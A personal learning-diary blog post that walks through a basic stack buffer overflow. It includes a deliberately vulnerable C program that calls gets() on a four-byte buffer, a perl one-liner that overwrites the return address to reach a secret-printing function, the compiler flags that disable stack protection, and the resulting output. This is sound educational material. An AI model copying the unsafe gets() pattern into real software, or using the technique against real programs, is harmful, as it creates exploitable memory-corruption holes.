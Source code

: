 ```yaml
---
layout: post
title: "Day 17: How to write a buffer overflow exploit"
date: 2013-10-28 23:08
comments: true
categories: hackerschool coding security
---
```


I've declared this week to be the week of networks & security.

Today I started reading the excellent book 
[Hacking: The Art of Exploitation](http://nostarch.com/hacking2.htm)
by Jon Erickson. I learned a lot about how different parts and how MAC address
spoofing actually works.

But! Buffer overflows! I worked with Travis and Daphne today and we made one
work!

Okay. Here is a program with a vulnerability, made extra easy to exploit:

~~~
#include <stdio.h>
#include <string.h>

char password[] = "super_secret";

void foo(void) {
  printf("You hacked me! Here is the secret password: %s\n", password);
  fflush(stdout);
}

int main(int argc, char *argv[]) {
  char buf[4];

  printf("Here is the address of foo: %p\nWhat is your hacking text? ", foo);
  fflush(stdout);

  gets(buf);

  printf("You entered: %s\n", buf);
  fflush(stdout);

  return 0;
}
~~~

The idea is that we're going to put a string, then make the program jump to
the address of `foo` instead of returning. I couldn't get this to work on my
64-bit machine for some reason, so I told it to be 32-bit instead and it
worked. <s>If you know why please tell me!</s> <small>(*Edit:* Figured this out! Turns out I
just needed to pad the address with 0s until it was 64 bits and then
experiment with offsets.)</small>

~~~
$ gcc -m32 test.c -o test
$ perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' | ./test
Here is the address of foo: 0x80484b4
What is your hacking text? You entered: aaaa���
*** stack smashing detected ***: ./a.out terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x45)[0xf7663eb5]
/lib/i386-linux-gnu/libc.so.6(+0x104e6a)[0xf7663e6a]
./a.out[0x8048561]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xf75784d3]
./a.out[0x8048421]
~~~

Oh look! It turns out that gcc already knows about this exploit and has special built-in protections! We can disable those, though...

~~~
$ gcc -fno-stack-protector -m32 test.c -o test
$ perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' | ./test
Here is the address of foo: 0x8048464
What is your hacking text? You entered: aaaadddd�
You hacked me! Here is the secret password: super_secret
[1]    26357 done                              perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' |
 
       26358 segmentation fault (core dumped)  ./a.out
~~~

BOOM. We win!

What happened here? At the end of the stack, there's the address that the
function needs to jump back to when it returns. Since `gets` doesn't know how
many characters to read into buf, it keeps reading into the stack until the
string is over and writes over that address. We don't know exactly where the
address is, so we keep writing it over and over and over again until it works.

Also! Notice how we had to reverse the order of the memory address to be
`"\x64\x84\x04\x08"` instead of `\x08\x04\x84\x64`. This is because memory is
laid out in a little-endian way. "Little-endian" basically means "backwards".
Intel architectures are always like this. See [wikipedia](http://en.wikipedia.org/wiki/Endianness) for more on endianness. 

<s>There are smarter ways to deal with this issue of not knowing where the end of
the stack is ("NOP sleds"!), but this one is simpler and so it is what we did.</s>

Filippo pointed out to me that NOP sleds are actually something you use in
shellcode when you're not sure where the program execution will start. In this
case I think you actually just have to figure out where the return address is.
I think you can also use gdb or objdump to discover the layout of the stack,
but I don't know how to do that yet.
